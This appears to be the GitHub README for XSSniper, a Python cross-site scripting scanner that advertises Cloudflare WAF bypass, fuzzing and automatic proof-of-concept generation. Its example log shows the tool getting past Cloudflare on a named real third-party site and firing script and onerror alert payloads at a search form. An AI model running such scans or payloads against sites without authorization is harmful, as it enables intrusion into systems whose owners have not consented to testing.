 # XSSniper

<img src="background.png" width="900">

## A XSS scanner with WAF bypass features

<!-- FEATURES -->
## Features:

- Cloudflare WAF and JS challenge bypass with user-agent rotation and cloudscraper
- Finds potentially vulnerable JavaScript code and searches for injection points
- Built-in fuzzer and crawler
- Creates a PoC for XSS and tests it automatically
- Written in Python
- Lots of payloads

<!-- INSTALLATION -->
## Installation:

    $ git clone https://github.com/umutcamliyurt/XSSniper.git
    $ cd XSSniper/
    $ sudo apt-get install python3 python3-pip
    $ pip3 install -r requirements.txt
    $ python3 XSSniper.py

<!-- USAGE -->
## Usage:

### Options:

```
python3 XSSniper.py --help
usage: XSSniper.py [-h] [-c COOKIE] [-o OUTPUT_DIR] [--log LOG] [--headless] [--poc] [-f FORMS] [--keep-going] [--delay DELAY] [-v] url

XSSniper - A XSS scanner with WAF bypass features

positional arguments:
  url                   Target URL (include http(s)://)

options:
  -h, --help            show this help message and exit
  -c, --cookie COOKIE   Optional cookie header
  -o, --output-dir OUTPUT_DIR
                        Directory for outputs
  --log LOG             Log file path
  --headless            Run browser headless
  --poc                 Enable PoC mode (requires prior scan)
  -f, --forms FORMS     Comma-separated form 'name' values for PoC (default: all)
  --keep-going          Continue tests after first PoC found
  --delay DELAY         Seconds to wait after page load
  -v, --verbose         Verbose console logging
```
<!-- EXAMPLE -->
### Example:

```
python3 XSSniper.py https://www.help.tinder.com --poc -v
2025-07-08 14:48:48 [INFO] [*] Testing https://www.help.tinder.com via requests...
2025-07-08 14:48:49 [WARNING] Request test failed (Blocked by Cloudflare or similar); trying cloudscraper...
2025-07-08 14:48:50 [WARNING] Cloudscraper also blocked; launching browser for manual captcha solution.
2025-07-08 14:48:50 [INFO] Please solve the captcha in the opened browser. Then return here and press Enter to continue.
Press Enter after solving captcha in the browser...
2025-07-08 14:49:01 [INFO] Using User-Agent from browser: Mozilla/5.0 (iPhone; CPU iPhone OS 16_7_7 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) CriOS/124.0.6367.98 Mobile/15E148 Safari/604.1
2025-07-08 14:49:03 [INFO] [PoC] Scanning https://www.help.tinder.com
2025-07-08 14:49:07 [INFO] Testing form action:search_0
2025-07-08 14:49:15 [DEBUG] No alert for payload <script>alert("XSS by Nemesis")</script> on form action:search_0
2025-07-08 14:49:24 [DEBUG] No alert for payload "<img src=x onerror=alert("XSS by Nemesis")> on form action:search_0
2025-07-08 14:49:33 [DEBUG] No alert for payload ';alert("XSS by Nemesis")// on form action:search_0
```

<!-- LICENSE -->
## License

Distributed under the MIT License. See `LICENSE` for more information.